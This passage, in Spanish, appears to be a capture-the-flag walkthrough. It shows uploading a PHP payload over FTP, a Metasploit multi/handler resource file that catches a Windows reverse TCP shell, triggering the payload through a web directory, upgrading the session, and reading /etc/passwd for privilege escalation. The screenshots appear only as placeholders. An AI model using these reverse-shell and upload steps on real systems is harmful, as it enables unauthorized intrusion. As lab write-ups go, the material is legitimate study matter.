 `put pwned.php`

![[Pasted image 20250724142806.png]]

`ls`

![[Pasted image 20250724142833.png]]
### Reverse Shell

Se inicia una escucha en el puerto 1234 para recibir la *reverse shell*.

`vim handler.rc`

```
use multi/handler
set PAYLOAD windows/shell/reverse_tcp
set LHOST 192.168.1.127
set LPORT 1234
run
```

`msfconsole -r handler.rc`

![[Pasted image 20250724143121.png]]

Como vimos anteriormente en el *fuzzing web*, accedemos al directorio: `http://10.10.120.69/files/ftp` y deberíamos de encontrar el *payload malicioso* que hemos subido anteriormente.

![[Pasted image 20250724170829.png]]

Se ejecuta el archivo y recibimos la *reverse shell*.

![[Pasted image 20250724171018.png]]

`background`

`sessions -u 1`

`sessions 2`
### Escalada de Privilegios
#### SSH

Se revisa el archivo `/etc/passwd` para identificar otros usuarios en el sistema

`cat /etc/passwd`

![[Pasted image 20250724171202.png]]

Se encuentra el usuario `lennie`.

Explorando los archivos se encuentra el siguiente archivo: `suspicious.pcapng` en la ruta: `cd /incidents`.

`cd /incidents`

`ls`

